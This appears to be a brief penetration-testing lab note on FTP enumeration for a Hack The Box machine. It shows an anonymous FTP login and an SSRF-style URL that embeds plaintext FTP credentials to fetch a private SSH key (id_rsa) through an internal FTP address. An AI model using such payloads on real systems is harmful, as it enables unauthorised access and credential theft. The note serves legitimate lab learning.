 FTP Enumeration

# FTP Enumeration

Anonymous Login 

> ftp 10.10.10.4
> Name: anonymous
> Password: (Enter)

Upload ssh key file
```bash
http://ADMIN.HTB.FORGE/upload?u=ftp://user:heightofsecurity123!@127.1.1.1/.ssh/id_rsa
```

Read the `vsftpd.conf` FTP config file  to enumerate the writeable directory path.